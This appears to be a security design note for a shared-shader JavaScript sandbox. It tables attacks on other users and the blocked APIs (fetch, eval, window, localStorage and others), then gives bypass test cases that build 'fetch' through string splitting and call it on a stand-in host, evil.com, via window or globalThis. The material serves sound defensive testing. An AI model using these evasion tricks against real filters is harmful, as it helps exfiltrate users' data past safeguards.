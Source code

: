 These are attacks that affect OTHER USERS when your shader is shared:

| Attack Type | Protected? | How |
|------------|-----------|-----|
| **Data Exfiltration** | ✅ Yes | Block `fetch`, `XMLHttpRequest`, `WebSocket`, `sendBeacon` |
| **Cross-Site Scripting** | ✅ Yes | Block `document`, `window`, DOM manipulation |
| **Timing Attacks (Spectre)** | ✅ Yes | Block `SharedArrayBuffer`, `Atomics` |
| **Storage Tampering** | ✅ Yes | Block `localStorage`, `sessionStorage`, `indexedDB` |
| **Navigation Hijacking** | ✅ Yes | Block `location`, `history`, `window.open` |
| **Code Injection** | ✅ Yes | Block `eval`, `Function()`, string `setTimeout` |

### **Local Attacks (Lower Priority)**

These only affect the user running the shader:

| Attack Type | Protected? | Reason |
|------------|-----------|--------|
| **Browser DoS** | ❌ No | Can't prevent infinite loops without heavy runtime overhead |
| **CPU Mining** | ❌ No | Heavy math is legitimate use case (shader effects) |
| **Memory Exhaustion** | ❌ No | Browser has built-in protections |
| **UI Manipulation** | ✅ Yes | Block `document`, `window` access |

---

## 🧪 Bypass Attempts to Test

### **Test 1: String Concatenation**
```javascript
function enterframe(state, api) {
    const w = 'win' + 'dow';
    const f = this[w];  // ← Blocked by "this["
}
```
**Expected:** Caught by `this\s*\[` pattern.

### **Test 2: Template Literals**
```javascript
function enterframe(state, api) {
    const evil = `${'fet'}${'ch'}`;
    window[evil]('https://evil.com');  // ← window blocked
}
```
**Expected:** Caught by `window` pattern.

### **Test 3: Computed Property Names**
```javascript
function enterframe(state, api) {
    const key = ['f','e','t','c','h'].join('');
    globalThis[key]('https://evil.com');  // ← globalThis blocked
}
```
**Expected:** Caught by `globalThis` pattern.
